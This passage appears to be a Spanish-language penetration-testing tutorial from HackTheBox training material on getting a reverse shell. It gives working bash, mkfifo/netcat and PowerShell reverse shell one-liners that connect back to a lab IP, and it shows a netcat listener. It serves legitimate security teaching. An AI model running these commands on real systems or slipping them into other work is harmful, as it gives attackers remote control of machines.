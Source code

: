 Ahora que tenemos un escuchador netcat esperando una conexión, podemos ejecutar el comando de reverse shell que se conectará a nosotros.

### Conectar la IP de Retorno

Primero, necesitamos encontrar la IP de nuestro sistema para enviar una conexión inversa de vuelta a nosotros. Podemos encontrar nuestra IP con el siguiente comando:


`pista95@htb[/htb]$ ip a`


`...SNIP...  3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500     link/none     inet 10.10.10.10/23 scope global tun0 ...SNIP...`

En nuestro ejemplo, la IP que nos interesa está bajo la interfaz **tun0**, que es la misma red de HackTheBox a la que estamos conectados a través de nuestra VPN.

**Nota**: Nos conectamos a la IP en 'tun0' porque solo podemos conectarnos a las máquinas de HackTheBox a través de la conexión VPN, ya que no tienen conexión a internet, y por lo tanto, no pueden conectarse a nosotros a través de `eth0`. En una prueba de penetración real, podrías estar directamente conectado a la misma red, o realizando una prueba de penetración externa, por lo que podrías conectarte a través del adaptador `eth0` o uno similar.

**Comando de Reverse Shell**  
El comando que ejecutamos depende del sistema operativo que esté ejecutando el host comprometido, es decir, Linux o Windows, y de qué aplicaciones y comandos tengamos acceso. La página **Payload All The Things** tiene una lista exhaustiva de comandos de reverse shell que podemos usar, cubriendo una amplia gama de opciones según nuestro host comprometido.

Algunos comandos de reverse shell son más confiables que otros y se pueden intentar para obtener una conexión inversa. A continuación, se muestran comandos confiables que podemos utilizar para obtener una conexión inversa, tanto en bash para hosts comprometidos con Linux como en PowerShell para hosts comprometidos con Windows:

**Comando para bash en Linux:**


`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

**Otro comando para bash en Linux:**


`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

**Comando para PowerShell en Windows:**


`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

Podemos utilizar el exploit que tenemos en el host remoto para ejecutar uno de los comandos anteriores, por ejemplo, a través de un exploit en Python o un módulo de Metasploit, para obtener una conexión inversa. Una vez que lo hagamos, deberíamos recibir una conexión en nuestro escuchador netcat:

`pista95@htb[/htb]$ nc -lvnp 1234`

